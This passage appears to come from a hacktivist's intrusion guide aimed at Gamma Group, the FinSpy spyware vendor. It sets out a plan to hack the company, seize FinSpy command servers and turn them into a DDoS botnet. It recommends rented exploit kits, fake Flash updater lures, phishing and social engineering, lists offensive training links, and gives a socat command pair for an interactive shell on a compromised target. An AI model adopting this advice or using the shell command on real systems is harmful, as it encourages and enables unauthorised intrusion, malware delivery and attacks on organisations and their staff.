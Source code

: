 --[ 7 ]-- Have Fun

Once you're in their networks, the real fun starts. Just use your imagination. While I titled this a guide for wannabe whistleblowers, there's no reason to limit yourself to leaking documents. My original plan was to:
1) Hack Gamma and obtain a copy of the FinSpy server software
2) Find vulnerabilities in FinSpy server.
3) Scan the internet for, and hack, all FinSpy C&C servers.
4) Identify the groups running them.
5) Use the C&C server to upload and run a program on all targets telling them
   who was spying on them.
6) Use the C&C server to uninstall FinFisher on all targets.
7) Join the former C&C servers into a botnet to DDoS Gamma Group.

It was only after failing to fully hack Gamma and ending up with some interesting documents but no copy of the FinSpy server software that I had to make due with the far less lulzy backup plan of leaking their stuff while mocking them on twitter.
Point your GPUs at FinSpy-PC+Mobile-2012-07-12-Final.zip and crack the password already so I can move on to step 2!

--[ 8 ]-- Other Methods

The general method I outlined above of scan, find vulnerabilities, and exploit is just one way to hack, probably better suited to those with a background in programming. There's no one right way, and any method that works is as good as any other. The other main ways that I'll state without going into detail are:

1) Exploits in web browers, java, flash, or microsoft office, combined with emailing employees with a convincing message to get them to open the link or attachment, or hacking a web site frequented by the employees and adding the browser/java/flash exploit to that. This is the method used by most of the government hacking groups, but you don't need to be a government with millions to spend on 0day research or subscriptions to FinSploit or VUPEN to pull it off. You can get a quality russian exploit kit for a couple thousand, and rent access to one for much less. There's also metasploit browser autopwn, but you'll probably have better luck with no exploits and a fake flash updater prompt.

2) Taking advantage of the fact that people are nice, trusting, and helpful 95% of the time. The infosec industry invented a term to make this sound like some sort of science: "Social Engineering". This is probably the way to go if you don't know too much about computers, and it really is all it takes to be a successful hacker [0].

[0] https://www.youtube.com/watch?v=DB6ywr9fngU

--[ 9 ]-- Resources

Links:

* https://www.pentesterlab.com/exercises/
* http://overthewire.org/wargames/
* http://www.hackthissite.org/
* http://smashthestack.org/
* http://www.win.tue.nl/~aeb/linux/hh/hh.html
* http://www.phrack.com/
* http://pen-testing.sans.org/blog/2012/04/26/got-meterpreter-pivot
* http://www.offensive-security.com/metasploit-unleashed/PSExec_Pass_The_Hash
* https://securusglobal.com/community/2013/12/20/dumping-windows-credentials/
* https://www.netspi.com/blog/entryid/140/resources-for-aspiring-penetration-testers
  (all his other blog posts are great too)
* https://www.corelan.be/ (start at Exploit writing tutorial part 1)
* http://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/
  One trick it leaves out is that on most systems the apache access log is readable only by root, but you can still include from /proc/self/fd/10 or whatever fd apache opened it as. It would also be more useful if it mentioned what versions of php the various tricks were fixed in.
* http://www.dest-unreach.org/socat/
  Get usable reverse shells with a statically linked copy of socat to drop on
  your target and:
  ```
  target$ socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp-listen:PORTNUM
  host$ socat file:`tty`,raw,echo=0 tcp-connect:localhost:PORTNUM
  ```